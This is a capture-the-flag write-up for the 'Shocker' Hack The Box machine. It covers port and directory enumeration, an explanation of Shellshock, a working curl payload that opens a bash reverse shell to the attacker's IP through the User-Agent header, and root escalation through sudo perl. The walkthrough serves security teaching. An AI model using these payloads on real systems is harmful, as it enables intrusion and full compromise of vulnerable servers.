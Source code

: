 ![](pics/logo.png)

# Shocker (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.175 -- -sC -sV -o port_scan

PORT     STATE SERVICE REASON  VERSION                                                                                                                                                    
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))                                                                                                                             
| http-methods:                                                                                                                                                                           
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Examine Port 80 - Apache Server

![](pics/website.png)

Accessing Port 80 via the browser, we only see a picture. Guess we have to enumerate the webserver and search for other directories using `gobuster`:

```
└──╼ $ gobuster dir -u "10.129.1.175" -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.1.175
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/19 08:47:59 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
```

Gobuster reveals two additional directories: `cgi-bin` and `server-status`. While server-status is rather not interesting, cgi-bin can lead to serious vulnerabilities such as ShellShock. 

### Shellshock
Shellshock is effectively a Remote Command Execution vulnerability in Bash that is caused by the fact that BASH (versions 1.0.3 - 4.3) incorrectly executes trailing commands when it imports a function definition stored in an environment variable:

```
env x= '() { :;}; echo vulnerable' bash -c "echo test"
```

Vulnerable versions of Bash interpret `x='() { :;};'` as a function definition for a function named x. The function body is simply `:` (colon), which is a Bash-builtin that does nothing and returns with exit code 0. While importing the function, it also executes the code following it - `echo vulnerable`. The overall output is 

```
vulnerable
test
```

### Exploiting Shellshock

As the machine is also called Shocker, I assume that this is the vulnerability that we should exploit. So let's see if we can find some vulnerable scripts in the directory.

Those scripts are mostly written in bash, perl, python or have the cgi extension. We can use gobuster again to scan the directory!

```
 gobuster dir -u "10.129.1.175/cgi-bin/" -w /usr/share/wordlists/dirb/common.txt -x sh,pl,cgi,py
===============================================================                                                                                                                           
Gobuster v3.0.1                                                                                                                                                                           
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.1.175/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     cgi,sh,pl,py
[+] Timeout:        10s
===============================================================
2021/01/19 09:13:54 Starting gobuster
===============================================================
 /user.sh (Status: 200)

```

If we access the file via the browser, it asks us to download the response of the script:

```
└──╼ $ cat user.sh              
Content-Type: text/plain

Just an uptime test script

 03:16:23 up 32 min,  0 users,  load average: 0.19, 0.15, 0.09
```

The script apparently executes the command `uptime`. 

*When a webserver uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the reuqest to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request. Security documentation for the widely used Apache web server states "CGI scripts can ... be extremely dangerous if they are not carefully checked." and other methods of handling web server requests are often used* (https://github.com/opsxcq/exploit-CVE-2014-6271)

## Gaining an Initial Foothold

To establish a reverse shell, we first set up our netcat listener and then execute following:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.26/4444 0>&1" http://10.129.1.175/cgi-bin/user.sh
```

This will exploit the Shellshock vulnerability and create a reverse shell for us. Of course this can also be done with Burp or some scripts or even modules from Metasploit. But I usually prefer to do it manually.

![](pics/reverse_shell.png)

## Privilege Escalation

Checking the available commands that can be executed with sudo, we see that our current user shelly can execute perl with sudo privileges.
```
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Now it's rather easy:

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
# id
uid=0(root) gid=0(root) groups=0(root)
```

We are root!